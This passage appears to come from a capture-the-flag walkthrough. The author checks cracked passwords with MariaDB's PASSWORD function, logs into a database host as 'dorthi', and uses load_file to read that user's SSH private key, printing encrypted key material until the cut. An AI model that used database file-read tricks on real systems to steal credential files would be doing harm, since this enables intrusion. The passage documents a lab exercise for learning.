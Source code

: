 
They won't crack easily, but I can confirm the passwords I already have:



    MariaDB [mysql]> select PASSWORD('N0Pl4c3L1keH0me');
    +-------------------------------------------+
    | PASSWORD('N0Pl4c3L1keH0me')               |
    +-------------------------------------------+
    | *43AE542A63D9C43FF9D40D0280CFDA58F6C747CA |
    +-------------------------------------------+
    1 row in set (0.00 sec)

    MariaDB [(none)]> select PASSWORD('SuP3rS3cr3tP@ss');
    +-------------------------------------------+
    | PASSWORD('SuP3rS3cr3tP@ss')               |
    +-------------------------------------------+
    | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
    +-------------------------------------------+
    1 row in set (0.00 sec)



#### Read Key

I know from above that there's a path `/home/dorthi/.ssh/` that maps to
`/connect/sshkeys` on the host. I'll use the database to grab the file.



    /containers/database # mysql -h 10.100.10.4 -u dorthi -pN0Pl4c3L1keH0me
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 2
    Server version: 5.5.59-MariaDB-1~wheezy mariadb.org binary distribution

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]> select load_file("/home/dorthi/.ssh/id_rsa");
    ...[snip]...
    | -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,66B9F39F33BA0788CD27207BF8F2D0F6

    RV903H6V6lhKxl8dhocaEtL4Uzkyj1fqyVj3eySqkAFkkXms2H+4lfb35UZb3WFC
    b6P7zYZDAnRLQjJEc/sQVXuwEzfWMa7pYF9Kv6ijIZmSDOMAPjaCjnjnX5kJMK3F
    e1BrQdh0phWAhhUmbYvt2z8DD/OGKhxlC7oT/49I/ME+tm5eyLGbK69Ouxb5PBty
    h9A+Tn70giENR/ExO8qY4WNQQMtiCM0tszes8+guOEKCckMivmR2qWHTCs+N7wbz
    a//JhOG+GdqvEhJp15pQuj/3SC9O5xyLe2mqL1TUK3WrFpQyv8lXartH1vKTnybd
    9+Wme/gVTfwSZWgMeGQjRXWe3KUsgGZNFK75wYtA/F/DB7QZFwfO2Lb0mL7Xyzx6
    ZakulY4bFpBtXsuBJYPNy7wB5ZveRSB2f8dznu2mvarByMoCN/XgVVZujugNbEcj
    evroLGNe/+ISkJWV443KyTcJ2iIRAa+BzHhrBx31kG//nix0vXoHzB8Vj3fqh+2M
    EycVvDxLK8CIMzHc3cRVUMBeQ2X4GuLPGRKlUeSrmYz/sH75AR3zh6Zvlva15Yav
    5vR48cdShFS3FC6aH6SQWVe9K3oHzYhwlfT+wVPfaeZrSlCH0hG1z9C1B9BxMLQr
    DHejp9bbLppJ39pe1U+DBjzDo4s6rk+Ci/5dpieoeXrmGTqElDQi+KEU9g8CJpto
    bYAGUxPFIpPrN2+1RBbxY6YVaop5eyqtnF4ZGpJCoCW2r8BRsCvuILvrO1O0gXF+
    wtsktmylmHvHApoXrW/GThjdVkdD9U/6Rmvv3s/OhtlAp3Wqw6RI+KfCPGiCzh1V
    0yfXH70CfLO2NcWtO/JUJvYH3M+rvDDHZSLqgW841ykzdrQXnR7s9Nj2EmoW72IH
    znNPmB1LQtD45NH6OIG8+QWNAdQHcgZepwPz4/9pe2tEqu7Mg/cLUBsTYb4a6mft
    icOX9OAOrcZ8RGcIdVWtzU4q2YKZex4lyzeC/k4TAbofZ0E4kUsaIbFV/7OMedMC
    zCTJ6rlAl2d8e8dsSfF96QWevnD50yx+wbJ/izZonHmU/2ac4c8LPYq6Q9KLmlnu
    vI9bLfOJh8DLFuqCVI8GzROjIdxdlzk9yp4LxcAnm1Ox9MEIqmOVwAd3bEmYckKw
    w/EmArNIrnr54Q7a1PMdCsZcejCjnvmQFZ3ko5CoFCC+kUe1j92i081kOAhmXqV3
    c6xgh8Vg2qOyzoZm5wRZZF2nTXnnCQ3OYR3NMsUBTVG2tlgfp1NgdwIyxTWn09V0
    nOzqNtJ7OBt0/RewTsFgoNVrCQbQ8VvZFckvG8sV3U9bh9Zl28/2I3B472iQRo+5
    uoRHpAgfOSOERtxuMpkrkU3IzSPsVS9c3LgKhiTS5wTbTw7O/vxxNOoLpoxO2Wzb
    /4XnEBh6VgLrjThQcGKigkWJaKyBHOhEtuZqDv2MFSE6zdX/N+L/FRIv1oVR9VYv